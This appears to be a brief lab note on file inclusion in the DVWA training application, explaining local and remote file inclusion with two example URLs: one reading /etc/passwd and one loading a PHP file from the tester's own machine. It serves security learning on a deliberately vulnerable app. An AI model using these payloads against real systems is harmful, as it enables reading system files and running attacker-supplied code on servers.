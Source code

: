 # File Inclusion - Low/Medium/High/Impossible


## Low/Medium/High

This occurs when an web application builds a path to executable code, which can be exploited by altering the unsanitized inputs. There are two option Local File Inclusion (LFI) and Remote File Inclusion (RFI). With RFI, you use your own VM's IP.

`LFI: http://192.168.1.23/dvwa/vulnerabilities/fi/?page=file:///etc/passwd`

`RFI: http://192.168.1.23/dvwa/vulnerabilities/fi/?page=http://192.168.80.88/somephp.php`

